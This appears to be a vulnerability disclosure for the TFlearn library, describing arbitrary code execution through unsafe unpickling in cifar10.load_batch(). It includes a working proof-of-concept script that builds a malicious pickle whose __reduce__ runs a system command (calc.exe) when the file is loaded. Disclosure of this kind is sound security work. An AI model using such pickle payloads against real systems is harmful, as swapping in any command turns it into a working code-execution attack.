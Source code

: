 # Description

`TFlearn` is a modular and transparent deep learning library built on top of Tensorflow. It was designed to provide a higher-level API to TensorFlow in order to facilitate and speed-up experimentations, while remaining fully transparent and compatible with it. This package is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

`load_batch()` function is used to load CIFAR 10 dataset for training. Lack of restriction in input allowes attacker-crafted file to get unpickled which causes code execution.

# Proof of Concept

# Installation
```bash
pip install tensorflow
pip install tflearn
```

# Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
from tflearn.datasets import cifar10

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())

with open('payload', 'wb') as f:
    f.write(payload)

cifar10.load_batch('payload')
```
